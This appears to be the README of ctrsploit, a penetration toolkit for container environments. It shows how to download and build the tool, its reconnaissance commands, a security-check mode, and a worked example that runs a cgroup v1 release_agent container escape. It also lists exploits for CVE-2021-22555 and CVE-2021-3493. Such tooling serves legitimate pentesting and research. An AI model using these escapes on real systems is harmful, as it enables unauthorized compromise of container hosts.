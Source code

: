 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt]

## Why ctrsploit

see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Self Build

### Build in Container

```bash
make binary && ls -lah bin/release
```

### Build in Local

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security

Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## Details

### env

| command                          | alias | description                                                              |
|----------------------------------|-------|--------------------------------------------------------------------------|
| [auto](./env/auto)               |       | auto gather environment information                                      |
| [where](./env/where)             | w     | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g     | detect graphdriver type and extend information                           |
| [cgroups](./env/cgroups)         | c     | gather cgroup information                                                |
| [capability](./env/capability)   | cap   | show the capability of pid 1 and current process                         |
| [seccomp](./env/seccomp)         | s     | show the seccomp info                                                    |
| [apparmor](./env/apparmor)       | a     | show the apparmor info                                                   |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns                                               |

### exploit

| exploit                                                                                  | alias | description                                                                  |
|------------------------------------------------------------------------------------------|-------|------------------------------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | escape tech by using the notify_on_release of cgroup v1                      |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04)                        |

### helper

| helper                                  | alias                    | description                    |
|-----------------------------------------|--------------------------|--------------------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec

Just execute `ctrsploit checksec` or standalone binary file `checksec`.
